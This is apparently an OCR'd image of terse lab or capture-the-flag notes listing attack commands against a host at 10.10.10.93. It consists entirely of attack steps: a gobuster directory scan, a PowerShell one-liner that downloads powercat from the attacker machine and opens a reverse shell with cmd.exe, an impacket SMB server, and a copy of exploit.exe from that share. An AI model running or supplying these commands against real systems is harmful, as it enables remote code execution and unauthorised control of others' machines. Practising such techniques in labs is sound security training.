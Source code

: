``gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp``

``IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5:80/powercat.ps1');powercat -c 10.10.16.5 -p 4444 -e cmd.exe``

``/usr/bin/impacket-smbserver kali .``

``copy \\10.10.16.5\kali\exploit.exe``

